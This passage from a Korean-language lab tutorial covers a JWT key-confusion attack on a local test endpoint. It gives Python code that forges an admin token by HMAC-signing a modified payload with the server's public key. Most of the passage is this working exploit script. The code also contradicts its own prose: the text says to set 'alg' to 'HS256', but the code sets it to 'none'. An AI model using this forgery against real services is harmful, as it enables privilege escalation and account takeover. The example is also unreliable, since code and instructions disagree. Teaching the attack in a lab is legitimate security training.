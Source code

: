 ![create public key](10.png)


### --- Step 04 Header(alg), Payload(role) 변조
아래 Python 코드를 이용해 변조된 토큰을 생성합니다.
`headDict` 변수에 Header의 **"alg"를 "HS256"으로 변조**하여 대입하고
`paylDict` 변수에 Payload의 **"role"을 "Admin"으로 변조**하여 대입한 후
'Step 3'에서 저장한 공개키('pubkey.pem')를 이용해 서명하여 토큰을 생성합니다.
> 해당 코드는 [JWT_Tool](https://github.com/ticarpi/jwt_tool)에서 필요한 부분을 가져와 수정하였습니다.

```python
import json
import base64
import hashlib
import hmac

#공개키 경로 
key = open("C:\\Users\\my_pc\\pubkey.pem").read()

#아래 headDict, paylDict 변조
headDict = {"alg": "none","typ": "JWT"}
paylDict = {"account": "Bob","role": "Admin","iat": 1658058021,"aud": "https://127.0.0.1/jwt/key-confusion"}

newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."+base64.urlsafe_b64encode(json.dumps(paylDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")
newContents = newContents.encode().decode('UTF-8')

newSig = base64.urlsafe_b64encode(hmac.new(key.encode(),newContents.encode(),hashlib.sha256).digest()).decode('UTF-8').strip("=")

print(newContents+"."+newSig)
```
